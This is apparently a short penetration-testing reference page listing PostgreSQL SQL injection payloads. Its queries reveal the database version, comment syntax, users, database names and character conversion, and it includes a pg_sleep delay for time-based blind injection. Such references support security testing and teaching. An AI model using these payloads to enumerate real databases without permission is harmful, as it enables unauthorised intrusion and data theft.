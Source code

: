 PostgresSQL Payload
=====================================

- Version
- ``SELECT version()``
- Comment
- ``SELECT 1 -- comment``
- ``SELECT /*comment*/1``
- Current User
- ``SELECT user``
- ``SELECT current_user``
- ``SELECT session_user``
- ``SELECT getpgusername()``
- List User
- ``SELECT usename FROM pg_user``
- Current Database
- ``SELECT current_database()``
- List Database
- ``SELECT datname FROM pg_database``
- Ascii
- ``SELECT char(0x41)``
- ``SELECT ascii('A')``
- Delay
- ``pg_sleep(1)``
